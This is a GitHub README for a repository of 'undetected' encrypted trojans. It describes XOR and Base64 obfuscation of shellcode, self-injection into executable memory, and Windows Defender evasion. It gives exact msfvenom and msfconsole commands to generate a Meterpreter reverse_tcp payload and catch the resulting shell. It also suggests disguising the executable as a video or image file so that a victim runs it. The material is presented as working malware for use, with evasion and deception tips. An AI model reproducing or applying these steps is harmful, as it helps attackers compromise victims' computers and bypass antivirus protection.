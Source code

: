 # Encrypted Trojans (Undetected)
Encrypted self-injection malware that creates a shell on a victim's pc, using Xor and Base64 encryption, UNDETECTED by Windows defender.

# 💻 Code (Encryption)

The first code is a very basic xor encryption using python, the second one is c++ based, the third one a base64 encoding based encryption, and the last one is a combination of the previous ones. The shellcodes are released with a very simple self injection process i showed in a previous repo, [Self-Injection-Reverse-Shell-Undetected](https://github.com/Hue-Jhan/Self-Injection-Reverse-Shell-Undetected), therefore i will not explain everything in details.

### 1) Python simple xor encryption

In this code the encryption function takes two inputs: a byte sequence (the shellcode), and a key (single-byte key to XOR against the data). It returns a new byte sequence where each byte from the data is XOR'd with the key. 

### 2) Xor encryption

Does the same thing but in c++, unlike the python code, it modifies the shellcode in place. The shellcode array passed to the function is directly changed through the XOR operation, so there is no return value, as the changes are applied directly to the memory location of the shellcode.

### 3) Base64 simple encryption

In this case i used a simple base64 encryption, it works by grouping the binary data into 24-bit blocks (3 bytes), then dividing them into four 6-bit chunks. Each 6-bit chunk is mapped to one of 64 possible characters (A-Z, a-z, 0-9, +, /).

### 4) Xor and Base64 encryption

Here the shellcode is encrypted using a simple XOR operation, and then it's encoded in Base64.

### 5) Multiple Xor and Base64 encryptions

The final encryption consists in multiple rounds of the Xor/B64 encryption, its the most complex i made so far. The only problem is decoding and injecting it, i've been having some issues decoding it as the cmd crashes : (
It's probably related to a buffer overflow due to the size of the encrypted shellcode.

# 💻 Code (Self Injection)

**Code explained**:
- First we define the base64 shellcode (make sure architecture is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

**Listener**:

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost XXX; set lport XXX; exploit" ```


**Payload**:

The payload is, as i said before, a simple base64 shellcode, it's reccomended to use shigata_ga_nai alternatives since its easy to detect:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX  -e x86/shikata_ga_nai -f c  ```. 

**Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with:

``` sessions ``` or ``` shell ```

---

# 🛡 AV Detection

<img align="right" src="media/vt1.png" width="350" />

Currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.
Again Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft recognizes the malware.... it should be the exact opposite but idk.

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, cuz i had some issues trying to establish the session.

